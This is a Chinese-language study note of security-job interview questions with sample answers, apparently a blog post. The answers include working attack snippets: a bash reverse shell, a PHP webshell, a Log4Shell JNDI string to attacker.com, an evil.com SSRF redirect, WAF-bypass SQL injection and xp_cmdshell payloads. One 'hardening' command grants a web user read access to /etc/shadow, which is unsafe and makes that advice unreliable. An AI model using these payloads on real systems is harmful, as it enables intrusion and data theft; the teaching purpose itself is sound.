

> https://blog.csdn.net/m0_62828084
> https://blog.csdn.net/m0_62828084?type=blog&year=2025&month=08

# 250805-1

```txt
1. 介绍一下自认为有趣的挖洞经历（或CTF经历）
2. 你平时用的比较多的漏洞是哪些？相关漏洞的原理？以及对应漏洞的修复方案？
3. 你平时使用哪些工具?以及对应工具的特点?
4. 如果遇到waf的情况下如何进行SQL注入/上传Webshell怎么做？
5. 谈谈Windows系统与Linux系统提权的思路？
6. 列举出您所知道的所有开源组件高危漏洞
7. 描述一个你深入研究过的 CVE 或 POC
8. php/java反序列化漏洞的原理?解决方案?
9. 如果一台服务器被入侵后,你会如何做应急响应?
10. 介绍 SQL 注入漏洞成因，如何防范？注入方式有哪些？除了数据库数据，利用方式还有哪些？
11. 常见的中间件解析漏洞利用方式
12. Windows、Linux、数据库的加固降权思路
13. 如何绕过CDN获取目标网站真实IP，谈谈你的思路
14. 如果给你一个网站,你的渗透测试思路是什么? 
15. 你实际的渗透测试经历等等
16. 反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么？
17. SSRF漏洞的成因 防御 绕过？
18. 有哪些反向代理的工具，有没有实际的内网渗透经历？
```

## 1. 有趣的挖洞经历

案例：某金融系统审计绕过+RCE
在一次授权测试中发现接口 `/api/v1/export` 存在逻辑缺陷：

- 漏洞链：
	- 身份验证处 `Cookie: Role=guest` → 篡改为 `Role=admin` 绕过权限校验
	- 参数 `filename=../../etc/passwd` 触发路径遍历（未过滤 `../`）
	- `exportType` 参数拼接命令行执行：`sh export_script.sh #{user_input}` → 构造 `;id>/web/static/test.txt` 实现 RCE
- 利用过程：
通过写入计划任务获取反向 Shell，最终控制业务服务器。
- 核心问题：
	- 权限校验依赖客户端传参
	- 未对用户输入进行规范化处理

## 2. 高频漏洞及修复方案

| 漏洞类型       | 原理简述           | 修复方案                     |
| ---------- | -------------- | ------------------------ |
| **SQL 注入** | 用户输入拼接到 SQL 语句 | 预编译语句(PreparedStatement) |
| **SSRF**   | 服务端发起未校验的请求    | 白名单限制请求地址+协议禁用           |
| **反序列化**   | 恶意数据触发对象执行链    | 签名校验+安全反序列化库             |
| **文件上传**   | 绕过类型/MIME 检测   | 文件内容检测+随机重命名             |

## 3. 渗透工具链及特点

| 工具               | 核心功能         | 场景示例                        |
| ---------------- | ------------ | --------------------------- |
| **Burp Suite**   | 流量拦截/重放/插件扩展 | Intruder 爆破 OAuth2 令牌       |
| **Sqlmap**       | 自动化 SQL 注入检测 | `--tamper=charencode` 绕 WAF |
| **Nmap**         | 端口扫描+服务指纹识别  | `-sV -script=vuln` 漏洞扫描     |
| **CobaltStrike** | 内网横向移动       | 钓鱼攻击+权限维持                   |

## 4. WAF 绕过技术

SQL 注入绕过：

```sql
/*!50000SELECT*/ 1,2,3 FROM users WHERE id=1 UNION SELECT 1,@@version,3
```

- 技术组合：
	- 注释混淆：`/*!xxxx*/` MySQL 特性
	- 空白符替代：`%0a/%09` 替换空格
	- 分块传输编码(Chunked)

上传 Webshell 绕过：

- 双扩展名：`shell.php.jpg`
- 内容混淆：

```php
<script language="php">system($_GET['cmd']);</script>
```

-  `.htaccess` 覆盖：

```htaccess
AddType application/x-httpd-php .xyz
``` 

## 5. 系统提权思路对比

Windows 提权：

- 服务漏洞：`sc config binPath` 劫持服务路径
- DLL 劫持：替换高权限程序加载的 DLL
- Token 窃取：使用 Incognito 模仿 SYSTEM 令牌

Linux 提权：

- SUID 滥用：`find / -perm -4000 2>/dev/null`
- 内核漏洞：`Dirty COW` (脏牛漏洞) 写 `/etc/passwd`
- Cron 任务：覆盖定时执行的脚本

## 6. 开源组件高危漏洞

| 组件           | CVE-ID         | 影响范围    | 利用方式              |
| ------------ | -------------- | ------- | ----------------- |
| Log4j2       | CVE-2021-44228 | <2.15.0 | `${jndi:ldap://}` |
| Fastjson     | CVE-2022-25845 | <1.2.83 | 恶意 JSON 触发反序列化    |
| Spring Cloud | CVE-2022-22963 | <3.1.3  | SpEL 表达式注入        |

## 7. 深度分析 CVE-2021-44228 (Log4Shell)

漏洞原理：

```java
logger.error("${jndi:ldap://attacker.com/exp}"); // 触发JNDI解析
```

- **利用链**：  
    - Log4j 解析日志 → 执行 JNDI 查询 → 加载远程恶意类 → RCE
- **补丁方案**：
    - 2.15.0+默认禁用 JNDI
    - 设置参数 `-Dlog4j2.formatMsgNoLookups=true`

## 8. 反序列化漏洞原理

PHP 示例：

```php
class Vuln { 
    public $cmd = "id"; 
    // 魔术方法：在对象被销毁（程序结束或变量释放）时自动执行
    function __destruct() { 
        system($this->cmd); 
    } 
} 

// 接收用户输入并反序列化
unserialize($_GET['data']);

// 传入O:4:"Vuln":1:{s:3:"cmd";s:10:"whoami";}
```

**修复方案**：

- 使用 `json_encode()` 替代序列化
- 反序列化前校验签名

## 9. 服务器入侵应急响应

- 隔离网络：拔网线或防火墙阻断
- 取证流程：
	- Linux：`dd if=/dev/sda1 of=/evidence.img`
	- Windows：使用 FTK Imager 镜像内存
- 日志分析：

```bash
grep -R 'Accepted password' /var/log/auth.log # 定位成功通过密码登录的 IP 地址
last -i # 查看系统最近的登录历史及 IP
```

- 后门排查：
	- 检查 `crontab/` 启动项
	- 文件完整性验证，对比 `rpm -Va` (Linux)， `sigcheck -a c:\windows\system32\*` (Windows)

## 10. SQL 注入进阶利用

非数据类利用：

- 文件读取：

```sql
UNION SELECT LOAD_FILE("/etc/passwd"),1,1
```

- 系统命令执行（需条件）：

```sql
; EXEC xp_cmdshell 'net user' -- (MSSQL)
```

**防范方案**：

- 输入过滤：禁用 `'`、`"`、`\` 等特殊字符
- 最小权限：数据库账户仅授予 SELECT 权限


## 11. 中间件解析漏洞

| 中间件     | 漏洞形式             | 利用案例         |
| ------- | ---------------- | ------------ |
| IIS 6.0 | `/test.asp;.jpg` | 文件名分号截断      |
| Apache  | `test.php.xxx`   | 从右向左解析后缀     |
| Nginx   | `%00.php`        | 空字节截断 CGI 路径 |

## 12. 系统加固方案

Linux 降权 ：

```bash
chmod 700 /usr/bin/python3 # 限制解释器执行权限
setfacl -m u:www-data:r-x /etc/shadow # ACL精细化控制
```

Windows 加固 ：

- 禁用高危服务： `net stop LanmanServer`
- 启用 LSA 保护： `REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1`

## 13. CDN 真实 IP 发现

- 历史解析记录：

```bash
curl https://viewdns.info/iphistory/?domain=target.com
```

- 证书探测：

```bash
openssl s_client -connect target.com:443 | openssl x509 -text
```

- 特殊子域名：

`mail.target.com` 、 `direct.target.com` 常直连

## 14. 渗透测试方法论



**实际案例**：  

某次从微信公众号接口发现未授权访问 → 获取员工手机号 → 撞库进入 VPN → 内网 Redis 未授权 → 写入 SSH 密钥控制核心服务器。

## 15. 反弹 Shell 选择

**首选命令**：

```bash
bash -c 'exec bash -i &>/dev/tcp/10.0.0.1/4444 <&1' # 纯bash实现
``` 

**优势分析**：

- 无依赖外部命令（nc/python 可能被删除）
- 支持 TCP/UDP 全双工通信

## 16. SSRF 攻防全景

绕过技巧：

- 302 跳转：

```txt
http://evil.com/redirect.php  → 指向内网地址 
```

- DNS 重绑定：

```python
# 配置TTL=0的A记录，交替返回内外网IP
```

> - **原理**：配置一个特殊的 DNS 服务器，对同一个域名设置极短的 **TTL (生存时间)**。
> - **攻击流**：
> 	1. 第一次解析：返回外网合法 IP（通过过滤器的检查）。
> 	2. 第二次解析（实际请求时）：TTL 过期，重新解析返回内网 IP（如 `127.0.0.1`）。
> - **本质**：利用了“**检查时（Check）**”与“**执行时（Use）**”的时间差（即 TOCTOU 漏洞）。

防御方案：

- 协议白名单：仅允许 http/https
- 禁用重定向：PHP 示例： `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false)`

## 17. 内网穿透工具

| 工具          | 协议       | 特点              |
| ----------- | -------- | --------------- |
| **frp**     | TCP/HTTP | 多级代理支持 KCP 加速   |
| **ngrok**   | HTTP/TLS | 自动生成域名+HTTPS    |
| **reGeorg** | HTTP/S   | 基于 Websocks 的隧道 |

**内网渗透实例**： 

通过 Web 漏洞获取 DMZ 区服务器 → 上传 reGeorg 代理脚本 → 使用 Proxychains 全局代理 → 扫描 192.168.1.0/24 网段 → 发现 SMB 共享漏洞(MS17-010) → 控制域控服务器。

# 250805-2


# 250806

---

# 250808

```txt
1. 对称加密和非对称加密 
2. 什么是同源策略？ 
3. cookie 存在哪里？可以打开吗？ 
4. xss 如何盗取 cookie？ 
5. xss 有 cookie 一定可以无用户名密码登录吗？ 
6. xss 如何防御？ 
7. SYN 攻击原理 
8. 什么是网络钓鱼？ 
9. 什么是 CC 攻击？ 
10. Web 服务器被入侵后，怎样进行排查？ 
11. dll 文件是什么意思，有什么用？ 
12. Https 的作用 
13. 防范常见的 Web 攻击 
14. 重要协议分布层 
15. arp 协议的工作原理 
16. rip 协议是什么？rip 的工作原理 
17. 什么是 RARP？工作原理 
18. OSPF 协议？OSPF 的工作原理 
19. TCP 与 UDP 区别总结
```